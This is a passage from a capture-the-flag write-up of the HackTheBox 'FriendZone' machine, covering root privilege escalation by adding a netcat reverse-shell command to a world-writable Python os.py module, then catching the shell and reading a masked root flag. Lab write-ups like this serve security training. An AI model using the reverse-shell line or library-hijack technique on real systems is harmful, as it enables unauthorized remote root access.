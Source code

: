And voila, [os.py](http://os.py) is world writable, so I added these two lines:

```python
import os
os.system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.17.28 4444 >/tmp/f')
```

I know that this would normally create an import loop. But I call a shell so the script pauses the execution. I start a netcat listener and wait until the shell spawns:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/friendzone]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.17.28] from (UNKNOWN) [10.10.10.123] 40730
/bin/sh: 0: can't access tty; job control turned off
# python -c 'import pty;pty.spawn("/bin/bash")'
root@FriendZone:~# export TERM=xterm
export TERM=xterm
root@FriendZone:~# ^Z
zsh: suspended  nc -lvnp 4444
      
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/friendzone]
└─$ stty raw -echo; fg 
[1]  + continued  nc -lvnp 4444

root@FriendZone:~# ls
certs  root.txt
```

A shell as user root spawned.

## Root Flag

---

I can now get the root flag:

```bash
root@FriendZone:~# cat root.txt
b0**************************90c7
```

# Conclusions

---

This is a very good box. It is not very CTF like, but I think that this is good. The box is a good practice for the OSCP exam, it includes new techniques, such as to look as python modules if they are writable to any user.